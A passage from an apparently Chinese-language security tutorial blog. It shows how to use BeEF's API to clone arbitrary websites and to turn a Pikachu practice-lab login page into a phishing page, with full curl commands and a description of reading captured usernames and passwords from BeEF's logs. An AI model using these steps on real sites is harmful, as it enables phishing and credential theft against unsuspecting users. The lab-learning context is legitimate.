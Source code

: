 ![](https://img.wukaipeng.com/2023/1015-161323-image-20231015161323359.png)

> 🧐 如何防范？  
>
> - 单点登录。一个账号只允许一个 IP 登录
> - IP 记录。记录所有登录的 IP 地址。



### BeEF

👉 安装见：[02-MacOS M1M2 安装 Kali 和 BeEF 踩坑](https://wukaipeng.com/technique/net-security/07/02)

#### 克隆任意网站

```bash
➜  ~ curl -H "Content-Type: application/json; charset=UTF-8"  \
  -d '{"url": "https://wukaipeng.com/", "mount": "/is-wukaipeng"}' \
  -X POST \
http://192.168.64.4:3000/api/seng/clone_page\?token\=44738d265d43e98903df4f7b0821b4289dae1bc1
{"success":true,"mount":"/is-wukaipeng"}%
```

`-d` 中，`url` 是克隆的目标网站，`mount` 是克隆之后的地址

`POST` 的目标地址是 BeEF 的地址，token 来自与 API Key，见下图：

 ![](https://img.wukaipeng.com/2023/1016-212812-image-20231016212812263.png)

克隆之后的效果：

![](https://img.wukaipeng.com/2023/1016-212558-image-20231016212558649.png)

#### 克隆钓鱼网站并获取用户账号密码

克隆 Pikachu » Cross-Site Scripting » 反射型 XSS（post）页面：

```bash
curl -H "Content-Type: application/json; charset=UTF-8"  \
  -d '{"url": "http://175.178.126.31:8081/vul/xss/xsspost/post_login.php", "mount": "/pikachu"}' \
  -X POST \
http://192.168.64.4:3000/api/seng/clone_page?token=44738d265d43e98903df4f7b0821b4289dae1bc1
```

![](https://img.wukaipeng.com/2023/1016-213332-image-20231016213332776.png)

在 BeEF 后台可以看到已经有其他用户上线该网站了：

![](https://img.wukaipeng.com/2023/1016-213532-image-20231016213532316.png)

当用户输入账号密码后，我们也能通过 Logs 查看得到：

![](https://img.wukaipeng.com/2023/1016-213903-image-20231016213903055.png)



## 防御绕过
